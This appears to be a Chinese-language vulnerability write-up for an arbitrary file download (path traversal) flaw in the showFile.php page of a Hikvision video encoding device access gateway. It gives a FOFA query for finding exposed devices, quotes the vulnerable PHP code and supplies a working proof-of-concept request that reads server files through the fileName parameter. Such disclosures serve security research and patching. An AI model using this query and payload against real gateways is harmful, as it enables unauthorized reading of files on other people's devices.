 # HIKVISION 视频编码设备接入网关 showFile.php 任意文件下载漏洞

## 漏洞描述

海康威视视频接入网关系统在页面`/serverLog/showFile.php`的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
HIKVISION 视频编码设备接入网关
```

## FOFA

```
title="视频编码设备接入网关"
```

## 漏洞复现

登录页面

![image-20220519174129368](./images/202205191743965.png)

漏洞文件为 `showFile.php`, 其中 `参数 fileName` 没有过滤危险字符，导致可文件遍历下载

```
<?php
					$file_name = $_GET['fileName'];
					$file_path = '../../../log/'.$file_name;
					$fp = fopen($file_path, "r");
					while($line = fgets($fp)){
						$line = nl2br(htmlentities($line, ENT_COMPAT, "utf-8"));
						echo '<span style="font-size:16px">'.$line.'</span>';
					}
					fclose($fp);
?>
```

POC

```
/serverLog/showFile.php?fileName=../web/html/main.php
```

![image-20220519174337483](./images/202205191743535.png)